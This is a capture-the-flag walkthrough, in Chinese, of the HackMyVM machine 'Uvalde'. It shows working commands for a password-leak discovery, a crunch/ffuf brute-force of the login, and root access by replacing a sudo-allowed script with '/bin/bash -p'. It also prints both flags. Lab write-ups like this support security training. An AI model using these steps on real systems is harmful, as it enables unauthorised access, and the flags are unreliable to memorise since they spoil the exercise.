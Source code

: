 # Uvalde

2025.02.21 https://hackmyvm.eu/machines/machine.php?vm=Uvalde

[video](https://www.bilibili.com/video/BV1keAfevEet/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆，查看 output 文件内容，发现一个用户名 matthew 。

扫描 80 web，发现有登陆页面和注册页面，在注册页面中 http://192.168.5.40/create_account.php 输入 matthew 显示用户名已经存在，输入新用户名，发现 Location 会回显用户密码：

```
curl --data-urlencode "username=test1"  http://192.168.5.40/create_account.php -vv

Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDI1QDIxOTE=
```

解密后得到 username=test1&password=test12025@2191 使用此凭据登陆，没发现什么内容。经过多次注册，发现用户的密码格式为: 用户名+年@四位随机数，进行密码字典构造，尝试破解 matthew 用户的密码：

```
crunch 16 16 -t matthew2023@%%%%  -l xxxxxxxxxxx@xxxx -o pass.txt

ffuf -t 100 -ac -c -w pass.txt -u http://192.168.5.40/login.php -X POST -d 'username=matthew&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'
```

爆破出密码：matthew2023@1554 ssh 登陆该用户，得到 user flag：

```
matthew@uvalde:~$ cat user.txt
6e4136fbed8f8c691996dbf42697d460
```

sudo -l 发现 (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack 查看该脚本内容，没有可以利用的地方，发现 /opt 目录对其他组用户可以写，所以直接删除该文件，然后重建：

```
cd /opt
rm superhack
echo '/bin/bash -p' > superhack
chmod +x superhack
sudo /bin/bash /opt/superhack
root@uvalde:~# cat root.txt
59ec54537e98a53691f33e81500f56da
```
